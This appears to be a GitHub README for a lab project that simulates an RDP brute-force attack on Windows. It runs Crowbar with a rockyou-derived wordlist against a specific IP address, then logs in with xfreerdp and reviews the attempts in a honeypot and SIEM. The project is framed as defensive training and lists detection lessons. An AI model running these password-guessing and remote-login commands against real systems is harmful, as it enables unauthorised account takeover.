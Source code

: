 # 🔐 Simulating a Brute-Force Attack Using Crowbar in a Controlled Lab Environment

**Overview:**

This project showcases a controlled brute-force attack simulation on a Windows machine to demonstrate effective detection and response techniques. Crowbar, a powerful brute-forcing tool, targets protocols such as RDP, SSH, and VNC in this simulation. The objective is to understand attacker behaviors and enhance proactive defenses in a lab environment.

# Disclaimer: This is an educational project designed for secure lab environments only. Unauthorized brute-force attacks are illegal and unethical.

<img width="333" alt="Screenshot 2024-11-02 155759" src="https://github.com/user-attachments/assets/af465a8b-5790-43cd-a161-72d9a941f009">

**Tools & Setup**

- Crowbar: Brute-forcing tool for RDP, VNC, and SSH protocols.
- Cowrie: Honeypot for capturing brute-force attempts.
- Elasticsearch & Kibana: To log and analyze brute-force data.

- 🔧 **Steps to Reproduce**
1️⃣ Set Up Crowbar on Kali Linux
Crowbar typically comes pre-installed on Kali Linux. If not, install it using:

```bash
# Install Crowbar if not already installed
sudo apt install crowbar
```
2️⃣ Prepare Your Wordlist 📄
Crowbar requires a wordlist to attempt different passwords. Kali Linux provides several options, including the popular rockyou.txt:
```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
head -20 /usr/share/wordlists/rockyou.txt > /home/homelab/test.txt
```
Example of the first 20 passwords in rockyou.txt:

<img width="252" alt="Screenshot 2024-11-02 161103" src="https://github.com/user-attachments/assets/242642e9-4806-4835-bc89-b7175943def8">

Optional: Customize the wordlist by adding or editing entries:
```bash
nano test.txt
```
3️⃣ Choose Your Target Protocol 🔒
Crowbar supports several protocols (RDP, VNC, SSH). This simulation targets RDP on a Windows environment.
```bash
crowbar -b rdp.
```
<img width="393" alt="Screenshot 2024-11-02 161934" src="https://github.com/user-attachments/assets/4cac223e-23da-4f51-bffb-a35bdfed15fb">

4️⃣  Run the Attack 🎯
Execute the brute-force attack with Crowbar, specifying the IP address, protocol, and custom wordlist:
```bash
crowbar -b rdp -U <username path> -C <password path or wordlist> -s <IP Address>
```
```bash
crowbar -b rdp -U target.txt -C test.txt -s 135.234.96.24/32
```
<img width="393" alt="Screenshot 2024-11-02 161934" src="https://github.com/user-attachments/assets/c5b13c2f-7178-41f2-8292-8a78be4ec6a6">


5️⃣ Successful Remote Logon ✅
Once you achieve a successful brute force, log in to the target machine using xfreerdp:
```bash
xfreerdp /u:<username> /p:<password> /v:<IP address>
```
6️⃣ Log & Analyze Attempts 📊
Import the honeypot logs into Elasticsearch or your preferred SIEM tool for in-depth analysis:

Visualization: Analyze brute-force patterns, frequency, and timing to gain insights into attacker behaviors and response techniques.
#
**🚀 Results & Insights**

Through this controlled simulation, we gain insights into:

- Common brute-force patterns
- Effective response strategies, such as account lockout policies and alert tuning
- Enhanced proactive defenses and detection techniques

**🎓 Conclusion**

This project bridges the gap between theory and practical cybersecurity skills by simulating real-world scenarios in a safe environment. It demonstrates valuable techniques in threat detection, incident response, and proactive defense.
